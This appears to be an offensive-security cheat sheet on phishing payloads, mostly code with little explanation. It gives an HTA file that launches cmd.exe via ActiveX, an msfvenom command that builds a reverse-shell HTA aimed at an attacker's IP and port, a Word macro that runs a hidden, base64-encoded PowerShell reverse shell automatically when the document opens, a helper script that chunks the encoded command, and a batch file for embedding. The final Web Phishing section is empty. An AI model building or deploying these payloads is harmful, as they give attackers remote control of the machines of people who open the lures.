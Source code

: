 # Phishing Some Fish

## Client Fingerprinting

[FingerprintJS](https://github.com/fingerprintjs/fingerprintjs)

## HTML Applications

File: index.hta

``` hta
<html>
<body>
	<script>

	var c= 'cmd.exe'
	
	new ActiveXObject('WScript.Shell').Run(c);

	</script>
</body>
</html>
```

File: evil.hta

``` bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

## Microsoft Office

### Microsoft Word Macro

``` python
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad..."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

``` bash
Sub AutoOpen()
	ReverseShell
End Sub

Sub Document_Open()
	ReverseShell
End Sub

Sub ReverseShell()
	Dim Str As String

	Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
	Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
	...
	Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
	Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
	Str = Str + "AdABhAHIAdAAoACQAcwApADsA"

	CreateObject("Wscript.Shell").Run Str
End Sub
```

### Object Linking and Embedding

ReverseShell.bat

``` bat
START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad...
```

## Web Phishing

``` bash

```